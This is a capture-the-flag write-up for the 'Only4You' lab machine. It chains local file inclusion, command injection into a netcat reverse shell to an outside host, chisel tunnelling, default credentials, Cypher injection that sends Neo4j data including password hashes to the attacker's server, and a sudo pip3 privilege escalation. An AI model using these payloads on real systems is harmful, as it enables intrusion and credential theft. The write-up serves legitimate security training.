# Only4You

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- on-lyforyou.htb”


Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS --min-rate 1000 -p22,80 -sV -O -oN only4youVersions onlyforyou.htb”



### Port Scan Results


### HTTP Enumeration

The first step taken was to navigate to http://onlyforyou.htb. There I am redirected to http://only4you.htb, so I add the newly discovered domain to “/etc/hosts” and start to interact with the webpage.


Inspecting the source code, among the FAQ section, a new subdomain is found “beta.only4you.htb” where some beta products are available to test. The subdomain is added to “/etc/hosts” and visited.



Beta subdomain lets the users download a zip file called “source.zip” that contains python code for a python app.




Inspecting the file “app.py”, we see that the app has 5 functions that allow some operations with “jpg” and “png” files: 

  •	Resize (post, get): modifies the size of the user uploaded picture (calling the “resizeimg” function, included in the other python file “tool.py”) saving the picture with the 7 available sizes in the “LIST_FOLDER” and redirects the user to “/list”.

  •	Convert (post, get): changes the image extensión from jpg to png (or viceversa) and sends the converted image to the user as attachment in the HTTP response.

  •	Send_report: send the zip file source.zip to the user.
      
  •	List (get): renders the “list.html” template listing the images available on the “LIST_FOLDER” and allows the user to download them (calling “download” function).
      
  •	Download (post): lets the user download the image sent as POST form parameter “im-age”. There may be a LFI vulnerability in this parameter as it doesn’t properly sanitize the image name sent by the user. 


As it can be seen in illustration above, the way the app checks the validity of the user input is by calling “posix.normpath()” and then checking that there are no “..” on the filename and that it doesn’t start with “../”. There is a high chance of LFI using URL encoded filename.

Next step is to check if this python app is running on the “beta” subdomain. After checking the url’s “/list”, “/convert”, “/resize” and “/download” it is confirmed that the application is running on the web server.

Taking into account the previous information, following action should be to check if there is LFI on the “image” parameter. For that, I use burpsuite and a linux LFI dic-tionary (obtained from https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt, and processed with cut in order to eliminate all the “..” occurrences). 

As suspected, LFI is found.



Now, it is time to do some reconnaissance taking advantage of the recently found LFI. As the server is NGINX, the first thing is to check the default configuration files “/etc/nginx/nginx.conf”



Next default Nginx file to be checked is “/etc/nginx/sites-available/default” as shown in the picture, is it possible to see where the root directories of both domains are locat-ed. This is very useful information as we can try to read the source code of the files.



Nex try is to recover the “app.py” from the main domain root directory (“/var/www/only4you.htb/app.py”). 
 


Inspecting the imports of the file, we can see that it imports a function called “sendmessage” from “form.py”. As the almost unique thing that “app.py” does is to send emails, it is interesting to review “sendmessage” function source code. Let’s load “/var/www/only4you.htb/form.py”





As seen in the previous illustration, the function calls another function “issecure(email,ip)” that checks if the introduced email and the HTTP request originator’s IP address are secure.



In order to check the introduced email address domain, this function executes an OS command using the python function “run()” (from subprocess library) passing it the domain part of the email address sent by the user without any sanitization. As a result, this code snippet is vulnerable to RCE, by adding ``` |<os-command-to-execute> ``` right after the email address.

To exploit it, a netcat reverse shell will be used ``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-ADDRESS> <ListenPort> >/tmp/f ```.




Once in the shell, machine connection state is checked using netcat. It turns out that there are some interesting listening ports: 3000, 7474, 7687, 8001, 33060.


Ports 7474 and 7687 are the default Neo4J Database listening ports and 33060 is the default MySQL listening port. As shown in the pictures, user dev is the owner of the other two listening ports’ process.

To check this, it is necessary to use port forwarding technique and as there are no available SSH credentials, “chisel” tool will be used. 

I will use two Basic Server Listener in order to forward the traffic generated from the attacking machine to 3000 and 8001 ports in localhost. Here, I setup the chisel server on the attacker machine and allow reverse tunnels to be created from the client. After transferring chisel binary to the victim with ```wget http;//10.10.14.26:8000/chisel``` and allowing it to execute with ```chmod +x /tmp/chisel```

Commands on attacking machine:

  •	``` ./chisel server -p 8888 --reverse ```
      
  •	``` ./chisel server -p 6666 --reverse ```

Commands on only4you.htb:

  •	``` ./chisel client attacking-ip:8888 R:8989:localhost:8001 ```

  •	``` ./chisel client attacking-ip:6666 R:6767:localhost:3000 ```

After this, I am able to interact with the applications graphically in my browser accessing localhost:8989 and localhost:6767.




Port 3000 app is Gogs, and port 8001 is a proprietary one called Only4You. Both of them have login pages and as with every login page found, usual default credentials are tested on both login pages. Surprisingly, “admin:admin” let me in on Only4You app (port 8001).



App dashboard shows graphics related to the user behaviour and email statistics.


Inspecting the web functionalities, it is found that it has a search tool that let the user look up employee information.



There are two database applications running locally MySQL and Neo4J. The first one uses SQL syntax to execute queries, while the second one uses Cipher syntax to ex-ecute them. However, both query languages have things in common and among these things, we find special chars as “ ‘ “.

Sending “ ‘ ” as search parameter generates a HTTP code 500 response from the server.



As this app shows a lot of graphs and there is an open-source graph database in-stalled on the machine, I will start by trying some CipherInjections payloads from HackTricks book Cipher Injection section (“https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j”) to see if there is any kind of Cipher Injection vulnerability present.

To automate the trials, I select all the payloads present on HackTricks section, elabo-rate a small dictionary, and launch the intruder attack using burpsuite.



This doesn’t give us many information as every request containing “ ‘ ” will generate a HTTP Code 500 response from server. Using the payloads from the same HackTricks Book Section, I will try and get the Database Software Name, Version and Edition and send them via a HTTP request generated by the database itself. The following Cipher Query will be used:

``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```


This query, if executed, will send an HTTP request from the database to a “Simple HTTP Server” running on port 8000 of my machine containing the Neo4J software name, version, and edition.


Cipher Injection is found, software running is “Neo4J Kernel, version 5.6.0 Community Edition”. 

Next payload sent is aimed at retrieving the labels of the nodes present in the data-base and send them via HTTP request to my python server.

``` ' OR 1=1 WITH 1 as a CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.26:8000/?d=' + d as l RETURN 0 as _0 // ```





With the information about the different nodes’ names and using the built-in function “key()” it is possible to get the properties of each node, and the value for each of the properties. Will also use “LOAD FROM CSV” function to send the information to my python web server.

Firstly, the information for the “employees” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (e:employee) UNWIND keys(e) as result LOAD CSV FROM 'http://10.10.14.26:8000/?e=' + result +'='+toString(e[result]) as l RETURN 0 as _0 // ```




Now, the information for the “user” nodes:

``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RE-TURN 0 as _0 // ```




As it can be seen in the previous picture, password hash for user “John” is recovered. Using and online tool (https://hashes.com/en/tools/hash_identifier), a new password is found “ThisIs4You”.


As with every new set of credentials, I try to access via ssh to the machine using them.



## Initial Access – LFI+RCE+Cipher Injection

**Vulnerability Explanation**: Present subdomain is vulnerable to LFI, which lets the attacker to leak the main domain application source code. Reviewing this code, a Command Injection point is found which allows RCE and thus, to open a reverse shell. Through this shell, port forwarding allows access to a local hosted app login page, where default credentials are tested gaining access using “admin:admin”. This locally hosted application is vulnerable to Cipher Injection attacks and is possible to extract hashed passwords for ssh user John.

**Vulnerability Fix**: Sanitizing user input to avoid LFI, and command injection. Avoid using global-ly known default credentials as “admin:admin”.

**Severity**: Critical.

**Steps to reproduce the attack**: The steps followed for discovering the entry path are explained above, here, I will only show the injections used to obtain the info that let the attacker open and ssh shell as local user john.

•	Setup a listening port (444) and send HTTP post Request to http://only4you.htb with following params:
          
    o	name=randomString
          
    o	email=inf@random|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.26+444+>/tmp/f 
          
    o	subject=randomString 
          
    o	message=randomString

•	Download chisel on the victim with: ``` wget http;//10.10.14.26:8000/chisel ```

•	Port forwarding to access local web app on port 8001 with
          
    o	On attacking machine: ./chisel server -p 8888 –reverse 
          
    o	On victim: ./chisel client attacking-ip:8888 R:8989:localhost:8001
      
•	Access http://localhost:8989 and login with default credentials “admin:admin”
      
•	Setup a Python Simple HTTP Server (listening on port 8000) on attacking machine using: ``` python -m http.server ```
      
•	On the search panel, introduce the following Cypher Query: ``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RETURN 0 as _0 // ```

•	Break the obtained SHA256 hash (“a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6”) for user’s john password (“ThisIs4You”)

•	Access via SSH as “john”.



## Privilege Escalation - Insecure SUDO binary permissions.

**Vulnerability Explanation**: After establishing a foothold on target as user “john”, it was checked which commands was possible to run as sudo and found that john is authorized to run “/usr/bin/pip3 download http://127.0.0.1:3000/*.tar.gz” as sudo. As there is a wildcard (*) in the command, it is possible to download any file with extension “.tar.gz” from localhost port 3000. In this port is where the Gogs is running so it is possible to upload a malicious python package to an existing repository that executes the code we want and download it with privileges (thus, ex-ecuting the code with privileges) using the available command.


**Vulnerability Fix**: Avoid using wildcards on the available sudo commands.

**Severity**: Critical

**Steps to reproduce the attack**:

•	Create a malicious python package (https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/). In this case, the code sets the SUID bit active to “/bin/bash”
      
•	Upload the malicious package to the “Test” repository (or a newly created one).
      
•	Set the repository “Test” as “public” (or check that the repository used is Visible).

•	Execute ``` sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/src/master/exploitpy-0.0.1.tar.gz ```
      
•	Execute ``` /bin/bash -p ```




